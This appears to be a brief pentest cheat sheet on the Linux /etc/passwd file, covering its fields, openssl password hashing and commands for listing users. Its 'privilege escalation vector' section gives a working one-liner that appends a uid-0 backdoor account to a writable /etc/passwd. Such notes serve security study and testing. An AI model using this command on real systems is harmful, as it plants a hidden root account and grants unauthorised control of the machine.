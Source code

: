 # /etc/passwd user account database because system needs users.

## format
```
username:password:uid:gid:gecos:home:shell
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:User Name:/home/user:/bin/bash
```

## fields
- `username`: login name
- `password`: `x` (shadow) or hash
- `uid`: user ID (0=root)
- `gid`: primary group ID  
- `gecos`: full name/description
- `home`: home directory path
- `shell`: login shell

## generate password hash
```bash
openssl passwd -1 -salt mysalt mypassword    # MD5 hash
openssl passwd -6 -salt mysalt mypassword    # SHA-512 hash (better)
```

## analysis
```bash
cat /etc/passwd                          # view all users
grep "bash" /etc/passwd                  # users with bash shell
awk -F: '$3 >= 1000 {print $1}' /etc/passwd    # regular users (uid >= 1000)
awk -F: '$3 == 0 {print $1}' /etc/passwd       # root users (uid = 0)
```

## privilege escalation vector
if writable:
```bash
echo "hacker:$(openssl passwd -1 password):0:0:root:/root:/bin/bash" >> /etc/passwd
```

## notes
[!] `x` in password field means shadow passwords enabled
[!] uid 0 = root privileges regardless of username
[!] writable /etc/passwd = instant root access